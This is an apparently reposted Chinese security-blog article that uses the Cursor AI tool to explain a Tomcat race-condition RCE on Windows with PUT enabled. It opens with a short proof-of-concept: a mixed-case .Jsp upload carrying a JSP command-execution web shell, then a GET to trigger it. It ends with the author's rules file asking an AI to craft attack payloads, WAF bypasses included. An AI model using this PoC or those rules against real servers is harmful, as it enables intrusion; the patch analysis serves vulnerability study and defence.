

# 【CVE-2025-50379】利用cursor解读tomcat 条件竞争导致RCE漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/16261  
> **文章ID**: 16261

---

POC，大家都有了。  
在windows系统下，如果tomcat开启了put协议，可以通过同一时间内多次发送大小写混淆的数据包利用条件竞争绕过tomcat的防护，从而造成rce

```
PUT /aaa/aa.Jsp HTTP/1.1
Host: 192.168.2.137:8080
User-Agent: Mozilla/5.0

<% Runtime.getRuntime().exec("calc"); %>

```

```
GET /aaa/aa.jsp HTTP/1.1
Host: 192.168.2.137:8080
User-Agent: Mozilla/5.0

```

在官方的漏洞公告中找到对应的commit



用过cursor的都知道cursor有个@git 命令，只要把commit id给到cursor，cursor便可以通过review这段代码，分析补丁内容，从而挖掘漏洞点


# 利用cursor分析该漏洞的成因：

## 提问一：


让我深入分析这个问题的根本原因：  
1、 问题的本质：

* 资源元数据不一致问题发生在并发的GET和PUT/DELETE操作时
* FileResource对象的状态出现了混乱，部分字段显示文件存在，部分字段显示文件不存在

2、问题产生的具体场景：

```
// 原有的getResource实现(简化版)
public WebResource getResource(String path) {
    File f = file(path.substring(webAppMount.length()), false);
    if (!f.exists()) {
        return new EmptyResource(root, path, f);
    }
    return new FileResource(root, path, f, isReadOnly(), getManifest());
}

```

当并发请求发生时：  
时间点1: GET请求检查文件存在  
时间点2: DELETE请求删除文件  
时间点3: GET请求继续构造FileResource对象

这会导致：

1. FileResource对象的部分字段基于文件存在时的状态
2. 而另一部分字段基于文件已被删除的状态
3. 最终导致FileResource内部状态不一致

3、 问题的根本原因：

* 缺乏原子性：检查文件存在性到创建FileResource对象这个过程不是原子的
* 缺乏同步机制：并发的读写操作没有适当的同步控制
* 状态不一致：FileResource对象的构造过程可能跨越文件状态的变化点

4、修复方案：

```
public WebResource getResource(String path) {
    ResourceLock lock = lockForRead(path);
    try {
        File f = file(path.substring(webAppMount.length()), false);
        if (!f.exists()) {
            return new EmptyResource(root, path, f);
        }
        return new FileResource(root, path, f, isReadOnly(), getManifest(), this, lock.key);
    } finally {
        unlockForRead(lock);
    }
}

```

主要改进：

1. 引入读写锁机制保护资源访问
2. 确保资源状态检查和对象创建的原子性
3. 写操作时使用排他锁防止并发读取
4. 读操作时使用共享锁允许并发读取
5. 安全建议：  
   代码审计角度：
6. 检查所有涉及文件操作的代码路径
7. 确保锁的正确获取和释放
8. 检查是否存在死锁风险
9. 验证错误处理和异常情况  
   漏洞防范：
10. 防止条件竞争(Race Condition)
11. 防止TOCTOU(Time-of-check to time-of-use)漏洞
12. 防止资源泄露
13. 防止拒绝服务攻击  
    监控建议：
14. 监控锁的获取和释放情况
15. 监控资源访问模式
16. 监控并发操作的性能影响
17. 记录异常和错误情况  
    这个问题本质上是一个并发安全问题，涉及到共享资源的并发访问控制。通过适当的同步机制可以确保资源状态的一致性，但同时也需要注意性能和死锁等潜在问题。

## 提问二：


这个bug修复主要涉及以下文件的修改：

1. 新增文件 `WebResourceLockSet.java`:

   ```
   public interface WebResourceLockSet {
    // 为读操作提供锁定机制
    ResourceLock lockForRead(String path);
    void unlockForRead(ResourceLock resourceLock);

    // 为写操作提供锁定机制 
    ResourceLock lockForWrite(String path);
    void unlockForWrite(ResourceLock resourceLock);

    // 内部类定义资源锁
    class ResourceLock {
        public final AtomicInteger count = new AtomicInteger(0);  // 追踪锁的使用计数
        public final ReentrantReadWriteLock reentrantLock = new ReentrantReadWriteLock(); // 实际的读写锁
        public final String key;  // 锁定资源的标识符
    }
   }

   ```
2. `DirResourceSet.java` 的主要修改：

   ```
   public class DirResourceSet extends AbstractFileResourceSet implements WebResourceLockSet {
    private boolean caseSensitive = true;  // 文件系统是否大小写敏感
    private Map<String,ResourceLock> resourceLocksByPath = new HashMap<>();  // 存储路径与锁的映射
    private Object resourceLocksByPathLock = new Object();  // 保护map的同步锁
    // 获取资源的方法修改
    public WebResource getResource(String path) {
        // ...
        ResourceLock lock = lockForRead(path);
        try {
            File f = file(path.substring(webAppMount.length()), false);
            if (!f.exists()) {
                return new EmptyResource(root, path, f);
            }
            // 传入锁信息创建FileResource
            return new FileResource(root, path, f, isReadOnly(), getManifest(), this, lock.key);
        } finally {
            unlockForRead(lock);
        }
    }
    // 写入资源的方法修改
    public boolean write(String path, InputStream is, boolean overwrite) {
        ResourceLock lock = lockForWrite(path);
        try {
            // 执行写入操作
            // ...
        } finally {
            unlockForWrite(lock);
        }
    }
    // 实现锁定方法
    public ResourceLock lockForRead(String path) {
        String key = getLockKey(path);
        ResourceLock resourceLock = null;
        synchronized (resourceLocksByPathLock) {
            // 获取或创建锁
            resourceLock = resourceLocksByPath.get(key);
            if (resourceLock == null) {
                resourceLock = new ResourceLock(key);
            }
            resourceLock.count.incrementAndGet();  // 增加使用计数
        }
        resourceLock.reentrantLock.readLock().lock();  // 获取读锁
        return resourceLock;
    }
    public void unlockForRead(ResourceLock resourceLock) {
        resourceLock.reentrantLock.readLock().unlock();  // 释放读锁
        synchronized (resourceLocksByPathLock) {
            if (resourceLock.count.decrementAndGet() == 0) {  // 减少使用计数
                resourceLocksByPath.remove(resourceLock.key);  // 如果没有使用则移除
            }
        }
    }
   }

   ```
3. `FileResource.java` 的修改：

   ```
   public class FileResource extends AbstractResource {
    private final WebResourceLockSet lockSet;  // 锁集合引用
    private final String lockKey;  // 资源锁标识符
    // 构造函数增加锁相关参数
    public FileResource(WebResourceRoot root, String webAppPath, File resource, 
            boolean readOnly, Manifest manifest, WebResourceLockSet lockSet, String lockKey) {
        // ...
        this.lockSet = lockSet;
        this.lockKey = lockKey;
    }
    // 删除操作增加锁保护
    public boolean delete() {
        if (readOnly) {
            return false;
        }
        ResourceLock lock = null;
        if (lockSet != null) {
            lock = lockSet.lockForWrite(lockKey);  // 获取写锁
        }
        try {
            return resource.delete();
        } finally {
            if (lockSet != null) {
                lockSet.unlockForWrite(lock);  // 释放写锁
            }
        }
    }
   }

   ```

关键改进点：

1. 锁的粒度控制：
   * 使用路径作为锁的标识符
   * 支持大小写敏感/不敏感的文件系统
2. 锁的生命周期管理：
   * 使用计数器追踪锁的使用情况
   * 自动清理不再使用的锁
3. 并发控制：
   * 读操作使用共享锁
   * 写操作使用排他锁
   * 保护锁集合的并发访问
4. 错误处理：
   * 使用try-finally确保锁的释放
   * 支持空检查和异常处理  
     安全建议：
5. 代码审计重点：
   * 检查所有资源访问路径是否都有适当的锁保护
   * 验证锁的获取和释放是否配对
   * 检查是否存在死锁风险
6. 性能优化：
   * 监控锁的争用情况
   * 评估锁的粒度是否合适
   * 考虑使用锁分段等技术
7. 安全加固：
   * 实现锁超时机制
   * 添加资源访问审计日志
   * 防范可能的拒绝服务攻击

这个修复通过完善的锁机制解决了并发访问导致的资源元数据不一致问题，同时保持了良好的性能和可维护性。

## 提问三：


让我分析一下原来代码中出现条件竞争的根本原因：

1、 问题的核心场景

```
// 原始代码(简化版)
public WebResource getResource(String path) {
    File f = file(path.substring(webAppMount.length()), false);
    if (!f.exists()) {
        return new EmptyResource(root, path, f);
    }
    return new FileResource(root, path, f, isReadOnly(), getManifest());
}

```

2、 条件竞争的具体表现：  
当并发GET和PUT/DELETE请求同时发生时,会出现以下时序问题:  
时间点1: GET请求检查文件存在 (f.exists() 返回 true)  
时间点2: DELETE请求删除文件成功  
时间点3: GET请求继续执行,创建FileResource对象

这导致:

1. FileResource对象的部分字段基于文件存在时的状态初始化
2. 而另一部分字段基于文件已被删除后的状态初始化
3. 最终FileResource对象内部状态不一致

3、代码中的漏洞点：

a. TOCTOU(Time-of-check to time-of-use)漏洞：

```
if (!f.exists()) {  // 检查时间点
    return new EmptyResource(root, path, f);
}
// ... 这里存在时间窗口 ...
return new FileResource(root, path, f, ...);  // 使用时间点

```

b. 缺乏原子性保证：

```
File f = file(path.substring(webAppMount.length()), false);
// 文件检查和对象创建之间没有同步机制
if (!f.exists()) {
    return new EmptyResource(root, path, f);
}

```

c. 状态不一致：

```
public FileResource(WebResourceRoot root, String webAppPath, 
        File resource, boolean readOnly, Manifest manifest) {
    // 构造函数中的各个字段设置可能基于不同时间点的文件状态
    this.root = root;
    this.resource = resource;  // 文件可能已经不存在
    this.readOnly = readOnly;  // 基于之前的状态
    // ... 其他字段初始化 ...
}

```

4、安全影响：

1. 数据一致性问题：
   * 资源状态不一致可能导致应用程序行为异常
   * 可能造成缓存污染
   * 可能导致错误的访问控制决策
2. 潜在的安全漏洞：
   * 可能被利用来绕过访问控制
   * 可能导致信息泄露
   * 可能被用于拒绝服务攻击
3. 业务影响：

   * 文件操作结果不可预测
   * 可能导致数据损坏
   * 影响系统可靠性
4. 漏洞利用场景：  
   // 攻击者可能通过以下方式利用：
5. 发送大量并发的GET/DELETE请求
6. 在文件检查和使用之间的时间窗口操作文件
7. 利用状态不一致构造特殊的请求序列
8. 代码审计建议：
9. 检查所有涉及文件操作的代码：  
   // 重点关注：

   * 文件存在性检查
   * 文件读写操作
   * 文件元数据访问
10. 同步机制审查：  
    // 确保：

    * 关键操作的原子性
    * 锁的正确使用
    * 避免死锁风险
11. 错误处理检查：  
    // 验证：

    * 异常处理的完整性
    * 资源清理的可靠性
    * 错误状态的一致性

这个问题本质上是由于缺乏适当的同步机制导致的条件竞争，需要通过完善的锁机制来确保资源访问的原子性和一致性。同时也需要注意性能和死锁等相关问题。  
解读：  
通过cursor的分析，已经能很清楚的知道，该漏洞的成因是由于tomcat缺乏文件锁的，如果频繁发送put请求，在getResource函数，f.exists函数会跳过检查，从而逃逸了EmptyResource。导致webshell上传成功。

后续：  
以往分析漏洞，我们需要去解读补丁内容，然后逐步调试。这整个过程就需要花费半天甚至一天的时间。而通过ai工具我们能更加轻易的分析漏洞，整个分析过程仅仅花了不到10分钟就将原理分析出来的，大大提高了代码审计的效率。  
最后附上我自用的cursorrules：

```
Always respond in 中文
Rules:
Description: 为Web漏洞分析提供安全和性能优化建议。
Includes:
    - 使用自动化工具增强手动漏洞发现。
    - 记录发现的漏洞并详细描述和分析潜在影响。
    - 使用渗透测试技术验证漏洞修复。
    - 利用程序的语言特性、框架和组件来分析相关漏洞。
    - 安全编码指南：根据OWASP指南和腾讯代码安全指南（ https://github.com/Tencent/secguide）强调安全编码实践。
    - 代码审计技术和工具。
    - 实施静态和动态代码分析。
    - 熟练使用各种漏洞利用工具，如nuclei、codeql等。
    - 擅长使用编写nuclei temper 和 codeql rules等。
    - 参考 https://book.hacktricks.xyz/和 https://github.com/swisskyrepo/PayloadsAllTheThings等资源，深入分析常见漏洞，并为各种漏洞构建包含payload的相关数据包，包括但不限于账户接管、XSS、SQL注入、命令注入、CORS、CSRF、SSRF、SSTi、XPATH、XXE、路径遍历、业务逻辑绕过、WAF绕过、竞争条件等。
    - 确保输入验证和输出清理，以防止XSS和SQL注入等常见攻击：这应该融入到安全编码实践和代码审查流程中，以验证和清理所有输入和输出，以减轻此类风险。
Description: 有专业知识储备，仔细阅读书中所有知识。
Includes:
    - 《Java代码审计(入门篇)》 作者:陈俊杰等 出版社:人民邮电出版社
    - 《代码审计：企业级Web代码安全架构》 作者:尹毅 出版社:机械工业出版社 出版时间:2015年12月
    - 《0day安全第二版》  作者:王清 主编,张东辉 等编著出版社:电子工业出版社出版时间:2011年06月
    - 《白帽子讲Web安全》  作者:吴翰清出版社:电子工业出版社出版时间:2023年07月
    - 《代码审计——C/C++实践》   作者:曹向志 马森 陈能技 等  出版社:人民邮电出版社
    - 《Web安全漏洞及代码审计》  作者:郭锡泉  出版社:电子工业出版社 出版时间:2021年08月
    - 《网络安全Java代码审计实战》  作者:高昌盛 出版社:电子工业出版社 出版时间:2021年10月
    - 《漏洞战争：软件漏洞分析精要（修订版）》 作者:林桠泉 出版社:电子工业出版社 出版时间:2024年01月 
Description: 处理不确定的漏洞评估案例。
Includes:
    - 明确陈述无法确认漏洞的情况。
    - 突出显示可能存在潜在问题的代码片段。
    - 告知过滤功能或其他影响不确定性的因素。
Description: 协助代码审计。
Includes:
    - 善于解读SAST、IAST和DAST的报告结果，从问题路线一步步追溯问题点，并对问题点进行反馈
    - 有效地为代码审查实践提供修复建议
    - 善于阅读开发人员提交的commit，并通过commit从下到上分析相应的问题路线
    - 熟练编写codeql扫描规则和AST抽象语法树。善于解读AST抽象语法树，掌握漏洞后能用AST抽象语法树表达每次的流程，并将这个过程形成自己的知识。
Description: 通用的开发最佳实践。
Includes:
    - 强调版本控制和代码文档的重要性。
    - 遵循 DRY（Don't Repeat Yourself）和 KISS（Keep It Simple, Stupid）原则
    - 确保所有代码更改都附有相关的单元测试和集成测试

```
